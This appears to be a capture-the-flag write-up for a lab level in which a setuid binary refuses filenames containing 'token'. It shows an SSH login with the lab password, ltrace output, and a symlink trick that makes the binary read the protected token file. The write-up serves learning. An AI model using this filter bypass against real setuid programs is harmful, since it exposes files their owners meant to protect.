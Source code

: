 # 08

Login

```b
> ssh level08@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: fiumuikeil55xe9cu4dood66h
> ls -l
-rwsr-s---+ 1 flag08 level08 8617 level08
-rw-------  1 flag08 flag08    26 token
```

2 files:

```b
> cat token
cat: token: Permission denied

> ./level08
./level08 [file to read]
```

Tryout

```b
# run it

> echo "a" > /tmp/tmp && ./level08 /tmp/tmp
a
> echo "aB" > /tmp/tmp && ./level08 /tmp/tmp
aB

# ltrace

> ltrace ./level08 /tmp
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp", "token")                                    = NULL
^^^^^^          ^^^^^ 🟡
open("/tmp", 0, 014435162522)                              = -1
err(1, 0x80487b2, 0xbffff90a, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open /tmp: Permission denied
 <unfinished ...>
+++ exited (status 1) +++

> ltrace ./level08 /tmp/tmp
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/tmp", "token")                                = NULL
^^^^^^              ^^^^^ 🟡
open("/tmp/tmp", 0, 014435162522)                          = 3
read(3, "aB\n", 1024)                                      = 3
write(1, "aB\n", 3aB
)                                        = 3
+++ exited (status 3) +++
```

Observation:
- it reads the contents of a file
- as long as the filename contains no "token" as substr
- renaming `./token` is not allowed
- but we can make a symlink of it
  - syntax: `ln -s real_path_src real_path_symlink`

Solution
```b
> ln -s `realpath token` /tmp/tok
```
